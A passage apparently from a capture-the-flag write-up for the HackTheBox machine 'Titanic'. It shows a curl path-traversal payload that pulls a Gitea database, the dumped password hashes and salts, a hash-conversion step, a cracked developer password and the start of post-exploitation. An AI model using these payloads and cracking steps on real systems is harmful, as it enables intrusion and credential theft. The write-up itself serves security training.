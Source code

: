 **gitea/docker-compose.yml**

```
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```

Using these files we can abuse the earlier LFI to grab the `gitea` database:

```
curl "http://titanic.htb/download?ticket=../../../../../../../../../../home/developer/gitea/data/gitea/gitea.db" -O
```

Using `sqlite3` we find the following `name,passwd,salt`:

```
administrator|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136|2d149e5fbd1b20cf31db3e3c6a28fc9b
developer|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56|8bf3e3452b78544f8bee9400d6936d34
```

We can search for `gitea password crack` and we find the following:
[gitea2hashcat](https://gist.github.com/h4rithd/0c5da36a0274904cafb84871cf14e271)

Using the script on the extracted database we get the following hashes:

```
sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

After cracking this we get credentials for `developer`:
`developer`:`25282528`
# Post Exploitation
Looking around for folders we can find the following interesting script:

`identify_images.sh`
```
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```
